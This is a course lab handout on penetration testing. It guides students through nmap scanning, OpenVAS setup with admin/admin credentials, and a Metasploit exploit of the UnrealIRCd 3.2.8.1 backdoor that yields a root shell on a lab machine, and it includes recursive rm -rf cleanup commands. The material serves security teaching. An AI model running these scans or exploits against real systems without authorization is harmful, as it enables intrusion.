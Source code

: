 # CSCD27 Lab 10: Penetration Testing

## Vagrant Setup

Make sure to setup your environment as described in the [Vagrant Setup Guideline](https://github.com/ThierrySans/CSCD27-F16/blob/master/assignments/02/VAGRANT.md).

Make sure to cleanup your directory at the **beginning** and at the **end** od this lab.

```shell
find ~ -follow -depth -name VirtualBox\ VMs -exec rm -rf '{}' \;
find ~ -follow -depth -name .VirtualBox -exec rm -rf '{}' \;
find ~ -follow -depth -name .vagrant.d -exec rm -rf '{}' \;
find ~ -follow -depth  -name .vagrant -exec rm -rf '{}' \;
```

All 3 parts of this lab must be done in the Kali linux box inside assignment 3:

```shell
$ cd ~/cscd27f16_space
$ git pull
$ cd CSCD27-F16/assignment/03/code/part2
$ vagrant up
$ vagrant ssh kali
```

## Nmap - Network Mapping and Host Fingerprinting

In this first part, we are going to use nmap to discover the services running on the target machine. This command exports the results in a file called `target.nmap`:

```shell
$ nmap -O —sV -p0-65535 10.0.1.101 -oN target.nmap
```

## OpenVAS - Vulnerability Scanner

In this first part, we are going to use OpenVAS vulnerability scanner to audit the security of the target:

```shell
$ openvas-setup
$ openvas-start
Starting OpenVas Services
Starting Greenbone Security Assistant: gsad.
Starting OpenVAS Scanner: openvassd.
Starting OpenVAS Manager: openvasmd.
```

**Important:** Make sure that the 4 OpenVAS components have all started correctly without any `ERROR`. If any, stop OpenVAS (`openvas-stop`) and restart it.

Once OpenVAS has correctly started, add the admin user:

```shell
$ openvasmd —create-user=admin
$ openvasmd —new-password=admin —user=admin
```

Finally, scan the target and export (as a pdf) the report through the OpenVAS web interface (https://localhost:9392)[https://localhost:9392]

## Metasploit - Exploit Framework

In this third part, we are going to use Metasploit to exploit a vulnerability ([CVE 2010-2075](http://www.cvedetails.com/cve/CVE-2010-2075/)) in UnrealIRCd (version 3.2.8.1). First, let us update and start the metasploit console:

```shell
$ msfupdate
$ service postgresql start
$ msfconsole
```

Thus, we can load, configure and run the exploit:

1. load the `unreal_ircd_3281_backdo­or` exploit
    ```shell
    msf > use exploit/unix/irc/unreal_ircd_3281_backdo­or
    ```
2. show and assign values to the exploit arguments:
    ```shell
    msf > show options
    msf > set RHOST 10.0.1.101
    ```
3. run the exploit
    ```
    msf > exploit
    ```
4. Voila!
    ```
    whoami
    root
    ```

